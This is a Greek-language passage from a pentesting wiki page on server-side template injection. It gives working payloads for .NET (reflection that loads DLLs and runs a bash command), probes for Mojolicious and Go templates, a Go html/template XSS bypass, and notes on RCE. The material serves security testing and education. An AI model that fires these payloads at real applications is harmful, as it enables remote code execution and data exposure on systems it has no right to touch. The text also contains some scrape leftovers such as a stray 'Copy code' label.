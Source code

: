 Dll's μπορούν να φορτωθούν με:

- `{"a".GetType().Assembly.GetType("System.Reflection.Assembly").GetMethod("LoadFile").Invoke(null, "/path/to/System.Diagnostics.Process.dll".Split("?"))}` - από το filesystem.
- `{"a".GetType().Assembly.GetType("System.Reflection.Assembly").GetMethod("Load", [typeof(byte[])]).Invoke(null, [Convert.FromBase64String("Base64EncodedDll")])}` - απευθείας από το αίτημα.

Πλήρης εκτέλεση εντολής:
```
{"a".GetType().Assembly.GetType("System.Reflection.Assembly").GetMethod("LoadFile").Invoke(null, "/path/to/System.Diagnostics.Process.dll".Split("?")).GetType("System.Diagnostics.Process").GetMethods().GetValue(0).Invoke(null, "/bin/bash,-c ""whoami""".Split(","))}
```
**Περισσότερες Πληροφορίες**

- [https://efigo.pl/en/blog/cve-2024-9150/](https://efigo.pl/en/blog/cve-2024-9150/)

### Mojolicious (Perl)

Ακόμα και αν είναι perl, χρησιμοποιεί ετικέτες όπως ERB στη Ruby.

- `<%= 7*7 %> = 49`
- `<%= foobar %> = Error`
```
<%= perl code %>
<% perl code %>
```
### SSTI in GO

Στη μηχανή προτύπων του Go, η επιβεβαίωση της χρήσης της μπορεί να γίνει με συγκεκριμένα payloads:

- `{{ . }}`: Αποκαλύπτει τη δομή δεδομένων εισόδου. Για παράδειγμα, αν περαστεί ένα αντικείμενο με ένα χαρακτηριστικό `Password`, το `{{ .Password }}` θα μπορούσε να το εκθέσει.
- `{{printf "%s" "ssti" }}`: Αναμένεται να εμφανίσει τη συμβολοσειρά "ssti".
- `{{html "ssti"}}`, `{{js "ssti"}}`: Αυτά τα payloads θα πρέπει να επιστρέφουν "ssti" χωρίς να προσθέτουν "html" ή "js". Περαιτέρω οδηγίες μπορούν να εξερευνηθούν στην τεκμηρίωση του Go [εδώ](https://golang.org/pkg/text/template).

<figure><img src="../../images/image (8).png" alt="" width="375"><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:1100/format:webp/1*rWpWndkQ7R6FycrgZm4h2A.jpeg">https://miro.medium.com/v2/resize:fit:1100/format:webp/1*rWpWndkQ7R6FycrgZm4h2A.jpeg</a></p></figcaption></figure>

**XSS Exploitation**

Με το πακέτο `text/template`, το XSS μπορεί να είναι απλό εισάγοντας το payload απευθείας. Αντίθετα, το πακέτο `html/template` κωδικοποιεί την απάντηση για να το αποτρέψει (π.χ., `{{"<script>alert(1)</script>"}}` έχει ως αποτέλεσμα `&lt;script&gt;alert(1)&lt;/script&gt;`). Παρ' όλα αυτά, ο ορισμός και η κλήση προτύπων στο Go μπορούν να παρακάμψουν αυτή την κωδικοποίηση: \{{define "T1"\}}alert(1)\{{end\}} \{{template "T1"\}}

vbnet Copy code

**RCE Exploitation**

Η εκμετάλλευση RCE διαφέρει σημαντικά μεταξύ `html/template` και `text/template`. Το module `text/template` επιτρέπει την άμεση κλήση οποιασδήποτε δημόσιας συνάρτησης (χρησιμοποιώντας την τιμή “call”), κάτι που δεν επιτρέπεται στο `html/template`. Η τεκμηρίωση για αυτά τα modules είναι διαθέσιμη [εδώ για το html/template](https://golang.org/pkg/html/template/) και [εδώ για το text/template](https://golang.org/pkg/text/template/).
